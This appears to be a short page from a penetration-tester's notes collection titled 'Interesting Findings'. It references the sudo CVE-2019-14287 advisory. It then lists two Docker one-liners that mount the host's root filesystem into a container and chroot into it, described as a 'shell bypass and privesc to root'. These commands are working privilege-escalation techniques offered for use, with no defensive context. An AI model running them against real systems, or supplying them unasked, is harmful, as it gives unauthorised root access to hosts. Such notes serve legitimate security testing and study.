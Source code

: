 # Interesting Findings

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>sudo <a href="https://access.redhat.com/security/cve/cve-2019-14287">CVE-2019-14287</a></p></figcaption></figure>

Read more: [https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/)

## Docker

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```

Docker shell bypass and privesc to root

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
